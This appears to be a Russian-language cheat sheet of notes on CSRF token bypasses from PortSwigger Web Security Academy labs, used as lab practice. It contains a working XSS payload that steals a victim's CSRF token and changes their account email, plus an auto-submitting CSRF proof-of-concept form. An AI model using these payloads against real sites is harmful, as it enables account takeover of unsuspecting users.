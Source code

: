 # CSRF уязвимости токена

---

## Exploiting XSS to perform CSRF
**Пользователь**, зашедший на страницу с **xss**, направит запрос и свой **csrf токен** на смену **email** на **'/my-account/change-email'**, если **токен** висит в **html**.
```javascript
<script>  
var req = new XMLHttpRequest();  
req.onload = handleResponse;  
req.open('get','/my-account',true);  
req.send();  
function handleResponse() {  
var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];  
var changeReq = new XMLHttpRequest();  
changeReq.open('post', '/my-account/change-email', true);  
changeReq.send('csrf='+token+'&email=test@test.com')  
};  
</script>
```

---
## CSRF, когда проверка токена зависит от метода запроса (use exploit server)

https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method

1. Repeater -> Change request method
2. Repeater -> Engagement tools -> Generate CSRF PoC
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a89008e03d199f389c89f8100bb0096.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="zxc&#64;zxc&#46;zxc" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

---

## CSRF, когда проверка токена зависит от его наличия (use exploit server)

